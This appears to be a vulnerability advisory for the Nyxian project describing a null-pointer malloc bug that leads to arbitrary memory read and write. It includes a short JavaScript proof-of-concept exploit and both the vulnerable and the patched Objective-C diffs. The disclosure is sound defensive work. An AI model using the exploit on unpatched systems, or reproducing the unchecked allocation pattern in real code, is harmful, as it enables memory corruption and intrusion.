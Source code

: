 # VID 003: Malloc Null

### Description

A attacker might be able to pass a arbitary size value to `memory.malloc` which causes allocation failure such as passing `0xFFFFFFFFFFFFFFFF` which is UINT64_MAX to the safety array and then use other methodes such as `memory.mwrite_buf_str` and `mread_buf_str` to read and write to and from arbitary memory addresses.

The vulnerability was addressed with improved checks and improved memory handling.

Introduced in: [`fee2b87`](https://github.com/ProjectNyxian/Nyxian/commit/fee2b8778ccfe6babdff4540e8e4fc56d8b68d1b)

fixed in: [`078d86a`](https://github.com/ProjectNyxian/Nyxian/commit/078d86a1b08f5e2f052e09d1d8d8cd7d507694b0)

Credit: [@seanistethered](https://github.com/seanistethered)

---

### Exploitation

```js
// initial vulnerability
// "allocating" a memory block with the size of UINT64_MAX
const ptr = memory.malloc(0xFFFFFFFFFFFFFFFF);

// allocating real memory block
const real_ptr = memory.malloc(0x01);

// writing a string to illegal memory bounds
memory.mwrite_buf_str(ptr, real_ptr - 10, real_ptr - 9, "\0");

// reading the string from illegal memory bounds
const buf = memory.mread_buf_str(ptr, real_ptr - 10, real_ptr -9);

// free the real memory block
memory.free(real_ptr);
```

---

### Diff

###### Introcution Diff

```diff
+ - (UInt64)malloc:(size_t)size
+ {
+     UInt64 pointer;
+     void *ptr = malloc(size);
+     pointer = (UInt64)ptr;
+     [self addPtr:pointer];
+     return pointer;
+ }
```

###### Patch Diff

```diff
  - (UInt64)malloc:(size_t)size
- {
-     UInt64 pointer;
-     void *ptr = malloc(size);
-     pointer = (UInt64)ptr;
+     // Allocating memory
+     UInt64 pointer = (UInt64)malloc(size);
+     
+     // Check if the pointer provided by malloc is even valid
+     if(pointer == 0)
+         return 0;
+     
+     // Adding the pointer
      [self addPtr:pointer size:size];
      
+     // Returning the pointer
      return pointer;
 }
```


